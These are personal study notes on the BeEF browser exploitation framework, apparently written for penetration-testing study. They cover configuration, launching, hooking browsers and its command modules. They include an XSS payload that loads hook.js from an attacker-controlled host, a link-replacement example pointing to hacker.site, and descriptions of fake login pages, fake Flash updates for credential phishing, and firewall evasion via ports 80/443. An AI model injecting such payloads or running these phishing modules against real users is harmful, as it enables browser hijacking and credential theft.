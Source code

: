 2024-12-20 20:07

Status:

Tags:

## **BeEF (Browser Exploitation Framework) Study Notes**

### **Introduction to BeEF**

- **BeEF** consists of:
    - A **web server** hosting a hooking JavaScript (`hook.js`).
    - A **web interface** for managing hooked browsers.
- **Pre-installed** on **Kali Linux**.

---

### **Hardening the Configuration**

Before using BeEF, secure its default settings:

1. **Navigate** to the BeEF configuration directory:
    
    bash
    
    Copy code
    
    `cd /etc/beef-xss`
    
2. **Edit Configuration File**:
    - Open `config.yaml` to modify settings.

#### Key Configurations:

- **Permitted UI Submit**:
    - Restrict UI access to the local machine to avoid unauthorized use.
- **Permitted Hooking Subnet**:
    - Scope control ensures browsers from **approved networks** only are hooked.
- **Listening Port**:
    - Use **port 80** or **443** to bypass corporate firewall policies.
    - Check for existing services listening on the chosen port.

---

### **Launching BeEF**

1. **Change Directory**:
    
    bash
    
    Copy code
    
    `cd /usr/share/beef-xss`
    
2. **Start BeEF**:
    
    bash
    
    Copy code
    
    `./beef`
    
3. **Access UI**:
    - Use the provided UI URL (e.g., `http://127.0.0.1:3000/ui/panel`).
    - Default Login:
        - **Username**: `beef`
        - **Password**: `beef`

---

### **Hooking Browsers**

To capture victim browsers:

1. Inject the **hooking script** (`hook.js`) into a vulnerable web page using **XSS**.
    
    html
    
    Copy code
    
    `<script src="http://<Your-IP>/hook.js"></script>`
    
2. **How It Works**:
    - When victims load the page, the hooking script runs and establishes communication with the BeEF server.
    - BeEF can send **commands** and gather information.

---

### **Managing Hooked Browsers**

- **All Hooked Browsers** are displayed in the UI under **"Online Browsers"**.
- Information collected:
    - **User Agent**
    - **OS and Browser Info**
    - **Installed Plugins**
    - **Window Size**
- If a browser disconnects, it moves to **"Offline Browsers"**.

---

### **Command Modules**

BeEF provides **modules** for executing commands against hooked browsers:

- **Module Icons**:
    - 🟢 **Green**: Invisible to the user.
    - 🟠 **Orange**: May be invisible.
    - ⚪ **Gray**: Untested for the target.
    - 🔴 **Red**: May not work.

#### Examples of Commands:

1. **Detect Pop-up Blocker**:
    - Checks if the victim browser has a pop-up blocker enabled.
2. **Replace HREFs**:
    - Replace all page hyperlinks with a malicious URL.
    - Example:
        
        http
        
        Copy code
        
        `http://hacker.site`
        
3. **Redirect Browser**:
    - Redirect the victim to a page under your control (e.g., a Rick Roll).
4. **Information Gathering**:
    - Detect **Virtual Machines** via screen resolution.
    - Retrieve the **Internal IP Address** using:
        - Java applet or
        - HTML5 WebRTC.

#### Social Engineering Modules:

- Inject fake content into the page:
    - **Fake Google Login Page**.
    - **Fake Flash Update**.
    - **Browser Notification Bars**.

> **Usage**: Can be leveraged in **phishing attacks** to collect credentials.

---

### **BeEF Browser Identification**

- Hooked browsers install a **cookie** for identification.
- Browsers can reconnect and persist across sessions.
- **Clear Data**:
    
    bash
    
    Copy code
    
    `./beef -x`
    

---

### **Practical Applications**

- **Penetration Testing**: Use hooked browsers as an entry point.
- **Phishing Attacks**:
    - Clone application login pages.
    - Collect credentials.
- **Information Gathering**:
    - Gather user data from browsing sessions.

---

### **Summary**

- BeEF automates **XSS exploitation** by hooking browsers and executing commands.
- Key features include:
    - **Information Gathering** (e.g., user details, IPs, plugins).
    - **Social Engineering** (fake logins, redirects).
    - **Session Control** via `hook.js`.
- Proper configuration hardening ensures secure and scoped usage.






### References
